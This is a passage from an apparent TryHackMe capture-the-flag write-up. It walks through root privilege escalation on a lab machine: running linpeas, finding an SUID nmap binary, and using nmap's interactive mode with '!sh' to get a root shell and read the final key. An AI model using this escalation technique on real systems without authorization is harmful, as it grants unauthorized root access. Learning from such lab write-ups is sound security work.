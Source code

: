 ```shell
$ sh linpeas.sh
```
After the scan has complete there are some interesting information about the machine

![13 kernal exploit](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/49f79280-2d86-4b9a-b343-71d9d22c42f9)

The machine version is outdated so We could perform a Kernal exploit???

But we're concerned about the random nmap file in the SUID??????

![12 linpeas](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/8046d9c0-082c-4a1b-b90e-a7fe4cd26a07)

This is interesting because if the SUID bit is enabled on a file, this means that non-root users can exploit this and escalate root access!!!

We now read more about this nmap file. behold gtfobins.

https://gtfobins.github.io/

We know the system nmap is running on version 3.x we can perform the following commands.

![15 nmap](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/1886d687-380d-40aa-8b6a-129e5b6a52ff)

Lets give it a try!!!!

```shell
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
#
```
Did it work?

```shell
# whoami
whoami
root
```
It did we are now root!!!!!! Let get that final flag 

```shell
# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
```
EZ!!!
















